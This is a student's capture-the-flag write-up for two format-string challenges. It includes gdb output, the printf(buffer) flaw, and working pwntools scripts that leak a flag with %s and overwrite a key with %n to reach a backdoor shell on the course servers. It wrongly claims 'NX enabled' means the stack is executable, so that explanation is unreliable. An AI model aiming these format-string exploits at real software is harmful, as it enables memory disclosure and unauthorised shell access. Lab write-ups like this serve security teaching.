

# CTF 6

## Desafio #1

### checksec

```
[11/24/21]seed@VM:~/CTF/6$ checksec --file=program --extended
  RELRO : Partial RELRO
  STACK CANARY: Canary found
  NX: NX enabled
  PIE: No PIE
  Clang CFI: No Clang CFI found
  SafeStack: No SafeStack found
  RPATH: No RPATH
  RUNPATH	: No RUNPATH
  Symbols: 81 Symbols
  FORTIFY: Yes
  Fortified: 0
  Fortifiable:  2
  FILE: program
```

We can conclude that:

- There is a _canary_ preventing the change of the return address of functions
  (or at least making it harder)
- The _stack_ has execution permission (NX) - We can execute code that we inject
  (e.g.: shellcode)
- The position on the binary aren't randomized (PIE) - we can get the addresses
  of variables/registers using a debugger.
- There isn't a seperated stack (SafeStack) - _return addresses_ aren't
  protected.

### Qual é a linha do código onde a vulnerabilidade se encontra?

```c
scanf("%32s", &buffer);
(...)
printf(buffer); // Vulnerability
```

### O que é que a vulnerabilidade permite fazer?

The vulnerability allows us to read and write to variables/registers that we
aren't supposed to, thus allowing us the read the **flag** global variable.

### Qual é a funcionalidade que te permite obter a flag?

By using '%s' on `printf`'s format string, we can read the contents of the flag
char array. To do this, we just need to obtain the address of said variable.

### Flag's memory address

```
[11/24/21]seed@VM:~/CTF/6$ gdb program
Reading symbols from program...
(...)
gdb-peda$ b load_flag
Breakpoint 1 at 0x8049256: file main.c, line 8.
gdb-peda$ run
(...)
Breakpoint 1, load_flag () at main.c:8
8	void load_flag(){
gdb-peda$ p &flag
$1 = (char (*)[40]) 0x804c060 <flag>
```

The address of the flag is `0x804c060`

### Exploit

```py
#!/usr/bin/env python3
from pwn import *

LOCAL = False

if LOCAL:
    local = './program'
    p = process(local)
else:
    url = 'ctf-fsi.fe.up.pt'
    port = 4005
    p = remote(url, port)

p.recvuntil(b":")

content = bytearray(0x00 for i in range(32))
val = 0x0804c060
content[0:4] = (val).to_bytes(4, byteorder='little')
content[4:6] = ("%s").encode('latin-1')

p.sendline(content)
p.interactive()
p.recvuntil(b"got:")
p.sendline(b"hi")
p.interactive()
```

`flag{5fc247063bea425edc863667ac9d09bc}`

In this simple exploit, we store the address in the beginning of the array, and
then use '%s' to read from that memory position. We only need 1 '%s', because
`printf`'s pointer starts right on top of the buffer.

## Desafio #2

### checksec

```
[11/24/21]seed@VM:~/CTF/6$ checksec --file=program --extended
  RELRO : Partial RELRO
  STACK CANARY: Canary found
  NX: NX enabled
  PIE: No PIE
  Clang CFI: No Clang CFI found
  SafeStack: No SafeStack found
  RPATH: No RPATH
  RUNPATH	: No RUNPATH
  Symbols: 79 Symbols
  FORTIFY: Yes
  Fortified: 0
  Fortifiable:  1
  FILE: program
```

### Qual é a linha do código onde a vulnerabilidade se encontra?

```c
scanf("%32s", &buffer);
(...)
printf(buffer); // Vulnerability
```

### O que é que a vulnerabilidade permite fazer?

The vulnerability allows us to change the contents of the `key` variable in
order to access the restricted area of the code.

### A flag é carregada para memória? Ou existe alguma funcionalidade que podemos utilizar para ter acesso à mesma?

The flag is not loaded to memory, but it is present in a file on the target
machine. The functionality that we can exploit to gain access to said file is
obtaining the correct key, activating the backdoor on the server. This spawns a
shell that we can use to read the file contents.

### Para desbloqueares essa funcionalidade o que é que tens de fazer?

To unlock this functionality, we abused the `%n` on `printf`. Our input is
passed as the format string of `printf` without any sanitation. We start by
using `gdb` to obtain the address of the `key` global variable. If we write the
correct number of chars using `printf` (0xbeef), calling `%n` on the key's
correct address will write 0xbeef to it, unlocking the backdoor.

Our buffer isn't big enough to write the needed quantity of chars, so we make
use of number padding to print more characters. This makes it so we can't have
the address of `key` at the beginning of the variable because calling `%`
commands advances `printf`'s pointer forward. We write enough to have printed
0xbeef chars, and then advance the pointer forward to the first available
position that is multiple of 4.

### Exploit

```py
#!/usr/bin/env python3
from pwn import *

LOCAL = False

if LOCAL:
    local = './program'
    p = process(local)
else:
    url = '10.227.243.188'
    port = 4005
    p = remote(url, port)

p.recvuntil(b"...")

content = bytearray(0x00 for i in range(32))
password = 0xbeef

# the -24 is explained below
pad_str = "%0" + str(password - 24) + "x"
content[0:len(pad_str)] = (pad_str).encode('latin-1')

x_str = "%x"
x_len = len(x_str)
n = 3
for i in range(len(pad_str), len(pad_str) + x_len * n, x_len):
    content[i:i+x_len] = (x_str).encode('latin-1')

content[14:16] = ("%n").encode('latin-1')
val = 0x0804c034
content[16:20] = (val).to_bytes(4, byteorder='little')

with open('badfile', 'wb') as f:
  f.write(content)

p.sendline(content)
p.recvuntil(b"You gave")
p.interactive()
```

We subtract 24 from the **password** because the '%x's used print some
characters:

- first '%x' - 38343025 - this one is the one that is left-padded with zeros.
- second '%x' - 78393738
- third '%x' - 78257825
- fourth '%x' - 78256e2578254

If we sum the length of the results of the last 3 '%x', we get 24. These numbers
come from the format string we constructed.

### Flag

`flag{1174a93d4e4fa9e0e19f4cba8ee8d8d8}`


